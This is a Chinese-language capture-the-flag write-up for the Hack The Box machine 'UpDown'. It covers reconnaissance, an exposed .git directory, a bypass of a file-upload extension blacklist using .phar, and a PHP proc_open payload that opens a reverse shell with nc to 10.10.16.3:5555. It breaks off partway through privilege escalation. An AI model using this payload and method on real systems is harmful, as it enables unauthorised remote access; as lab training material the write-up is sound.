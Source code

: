 ### 一、信息收集
1. 端口扫描
```shell
nmap -A 10.10.11.177
### 存在端口：20、80，存在web服务
```
<img decoding="async" src="./images/UpDown.png" >

>出现域名：siteisup.htb

2. 虚拟主机扫描
```shell
gobuster vhost -u http://siteisup.htb/ -w /usr/share/wordlists/SubDomain.txt 
### 出现子域名：http://dev.siteisup.htb/，但是无法访问
```

3. 目录扫描（针对两个域名进行扫描）
```shell
dirsearch -u http://siteisup.htb//    
dirsearch -u http://dev.siteisup.htb/
# 出现http://siteisup.htb/dev/.git/
```
<img decoding="async" src="./images/UpDown1.png" >

### 二、漏洞利用
1. 下载文件
> wget -c -r -np -k -L -p http://siteisup.htb/dev/.git/

2. 使用GitKraken打开`.git`目录
<img decoding="async" src="./images/UpDown2.png" >

- 找到提交New technique in header to protect our dev vhost.
```shell
# 出现以下内容
SetEnvIfNoCase Special-Dev "only4dev" Required-Header
Order Deny,Allow
Deny from All
Allow from env=Required-Header

# 用来保护dev.siteisup.htb，因此需要添加请求头：Special-Dev："only4dev" 
```
- 发现checker.php文件
```php

	# Check if extension is allowed.
	$ext = getExtension($file);
	if(preg_match("/php|php[0-9]|html|py|pl|phtml|zip|rar|gz|gzip|tar/i",$ext)){
		die("Extension not allowed!");
	}
  
	# Create directory to upload our file.
	$dir = "uploads/".md5(time())."/";
	if(!is_dir($dir)){
        mkdir($dir, 0770, true);
  }
  
  # Upload the file.
	$final_path = $dir.$file;
	move_uploaded_file($_FILES['file']['tmp_name'], "{$final_path}");
```
> 经过代码审计，该脚本会对上传文件的每一行url进行校验，并且存在文件上传漏洞且`.phar`后缀文件没有被排除。因此，构造payload文件进行处理

3. 更改请求包访问域名：dev.siteisup.htb
```http
GET / HTTP/1.1
Host: dev.siteisup.htb
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac 6666666666OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.1.1 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Special-Dev:"only4dev" # 原有请求包添加这个
```
<img decoding="async" src="./images/UpDown3.png" >

4. php配置信息收集
- 创建test1.phar文件
```php
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
<?php phpinfo(); ?>                        
```
在脚本教育URL期间，访问该脚本，获取以下php配置信息

<img decoding="async" src="./images/UpDown4.png" >
> 如上图所示，部分php函数被禁用，存在proc_open可以利用

1. 反弹shell
- 设置本地监听
  > nc -lvnp 5555

2. 设置payload
```php
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
<?php
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);

$cwd = '/tmp';
$env = array('some_option' => 'aeiou');

$process = proc_open('sh', $descriptorspec, $pipes, $cwd, $env);

if (is_resource($process)) {
    // $pipes now looks like this:
    // 0 => writeable handle connected to child stdin
    // 1 => readable handle connected to child stdout
    // Any error output will be appended to /tmp/error-output.txt

    fwrite($pipes[0], 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.3 5555 >/tmp/f');
    fclose($pipes[0]);

    echo stream_get_contents($pipes[1]);
    fclose($pipes[1]);

    // It is important that you close any pipes before calling
    // proc_close in order to avoid a deadlock
    $return_value = proc_close($process);

    echo "command returned $return_value\n";
}
?>
```
> 按照上一步的方法操作，可以获取webshell

### 三、权限提升
1. 寻找可以使用的SUID文件
```shell
# 执行语句
find . -perm /4000

# 出现二进制文件
./siteisup
```

2. 查看文件内容
```shell
strings siteisup
# 出现内容
/usr/bin/python /home/developer/dev/siteisup_test.py
```
https://blog.csdn.net/qq_45894840/article/details/127787106








